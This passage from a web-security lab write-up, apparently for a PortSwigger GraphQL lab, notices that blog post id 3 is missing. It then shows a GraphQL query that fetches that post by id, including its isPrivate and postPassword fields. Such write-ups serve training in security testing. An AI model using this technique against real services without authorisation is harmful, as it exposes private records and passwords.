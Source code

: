As you can see, we got blog post id `1`, `2`, `4`, `5`.

Uh... The id 3 is missing?

Also, field `isPrivate` and `postPassword` is all `false` and `null`.

With that said, **blog post id `3` must be interesting for us, maybe it is a private post**.

**To do so, we can use the `getBlogPost` query with argument `id` to try to get blog post id `3`:**
```graphql
query privatePostPls{
    getBlogPost(id: 3) {
        id
        image
        title
        author
        date
        summary
        paragraphs 
        isPrivate
        postPassword
    }
}
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Testing-GraphQL-APIs/GraphQL-1/images/Pasted%20image%2020230705133222.png)
